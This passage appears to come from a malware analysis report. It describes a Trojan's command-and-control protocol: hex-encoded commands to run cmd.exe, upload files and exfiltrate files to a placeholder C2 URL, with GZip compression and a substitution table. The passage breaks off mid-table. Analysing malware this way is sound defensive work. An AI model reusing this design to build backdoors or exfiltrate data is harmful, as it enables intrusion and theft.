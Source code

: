 

Command
Description


1
Run command


2
Upload a file


3
Download a specified file



 
The parameters for each command are issued in hexadecimal format. For instance, the character A would be represented by the two characters 41, which is the hexadecimal representation of that character. This hexadecimal format is used extensively throughout this Trojan.
The run command (1) creates the process cmd.exe /c with the command parameters appended and will write the output of the command in hexadecimal format to the file %APPDATA%\tmpCa.vbs. The Trojan will then read the hexadecimal formatted contents of this file in 1500 byte blocks, sending each 1500 bytes of data from the file to the C2 server via an HTTP GET request to a URL with the following structure:
http://<c2 domain>/resp?<hex(Environment.UserName/Environment.MachineName)>AAZ<hex(command prompt output)>
The upload command (2) writes data provided by the C2 to a specified file. The parameters supplied to this command include hexadecimal values for the binary data and the filename, which are split up by a delimiter of (!). The Trojan will respond to the C2 to notify it of a successful upload by sending a URL structured as follows:
http://<c2 domain>/resp?<hex(Environment.UserName/Environment.MachineName)>AAZ<hex("File Uploaded")>
The download command (3) reads the contents of a specified file and sends the data to the C2 server. If the file does not exist, the Trojan will send the C2 server a message < File Not Found > by sending the following URL:
http://<c2 domain>/resp?<hex(Environment.UserName/Environment.MachineName)>AAZ<hex("< File Not Found >")>
If the file exists, the Trojan will read the contents of the specified file and compresses the contents using the GZipStream class. The Trojan then gets the hexadecimal values of the compressed data and will replace the following hexadecimal values on each line with ASCII characters to further compressed the data:
 



String of hexadecimal values
Character replacement


000000
z


00000
x


